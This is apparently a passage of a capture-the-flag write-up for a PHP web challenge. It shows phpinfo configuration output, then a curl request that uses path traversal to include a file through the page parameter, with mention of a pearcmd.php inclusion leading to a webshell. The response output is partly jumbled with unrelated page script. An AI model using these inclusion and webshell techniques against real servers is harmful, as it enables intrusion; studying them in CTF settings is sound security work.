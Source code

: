 ```
<tr><td class="e">Configure Command </td><td class="v"> &#039;./configure&#039;  &#039;--build=x86_64-linux-gnu&#039; &#039;--with-config-file-path=/usr/local/etc/php&#039; &#039;--with-config-file-scan-dir=/usr/local/etc/php/conf.d&#039; &#039;--enable-option-checking=fatal&#039; &#039;--with-mhash&#039; &#039;--with-pic&#039; &#039;--enable-ftp&#039; &#039;--enable-mbstring&#039; &#039;--enable-mysqlnd&#039; &#039;--with-password-argon2&#039; &#039;--with-sodium=shared&#039; &#039;--with-pdo-sqlite=/usr&#039; &#039;--with-sqlite3=/usr&#039; &#039;--with-curl&#039; &#039;--with-iconv&#039; &#039;--with-openssl&#039; &#039;--with-readline&#039; &#039;--with-zlib&#039; &#039;--disable-phpdbg&#039; &#039;--with-pear&#039; &#039;--with-libdir=lib/x86_64-linux-gnu&#039; &#039;--disable-cgi&#039; &#039;--with-apxs2&#039; &#039;build_alias=x86_64-linux-gnu&#039; </td></tr>
<tr><td class="e">Server API </td><td class="v">Apache 2.0 Handler </td></tr>
<tr><td class="e">Virtual Directory Support </td><td class="v">disabled </td></tr>
<tr><td class="e">Configuration File (php.ini) Path </td><td class="v">/usr/local/etc/php </td></tr>
<tr><td class="e">Loaded Configuration File </td><td class="v">(none) </td></tr>
<tr><td class="e">Scan this dir for additional .ini files </td><td class="v">/usr/local/etc/php/conf.d </td></tr>
<tr><td class="e">Additional .ini files parsed </td><td class="v">/usr/local/etc/php/conf.d/docker-php-ext-sodium.ini
 </td></tr>

```


### How I found the exploit in the CTF

I randomly tried accessing `/tmp/hi.php` because I tried creating it via another exploit (phpinfo LFI to RCE). Never expect someone else already create it. It included the file `/usr/local/lib/php/pearcmd.php` and realised this could lead to a webshell.

```html
(base) [hacker@hackerbook tmp]$ curl "http://sourcelessguessyweb.chall.seetf.sg:1337/?page=../../../tmp/hi.php" 

<!--
\        /|   |\   /   /~~  /~~\    /~~ |~~ |~~\| /~~\ |   |/~~
 \  /\  / |---| \ /    |__ |    |   |__ |-- |__/||    ||   ||__
  \/  \/  |   |  |     ___| \__/    ___||__ |  \| \__/  \_/ ___|
-->

...

whysoserious/pear";s:7:"man_dir";s:79:"/&page=../../../../../usr/local/lib/php/pearcmd.php&/index.php
main.css
phpinfo.php
whysoserious
whysoserious/pear/man";}    `.replace(/[^A-Za-z0-9!?]/g, ' ').trim();

    if (message) {
        let currIdx = 0;
        let messageLength = message.length;

        let parts = document.querySelectorAll('.lazarus-pit > div');
        for (let i = 0; i < parts.length; i++) {
            let partLength = parts[i].innerHTML.length;

            parts[i].innerHTML = '';

            for (let j = 0; j < partLength; j++) {
                parts[i].innerHTML += message[currIdx % messageLength];
                currIdx++;
            }
        }
    }
```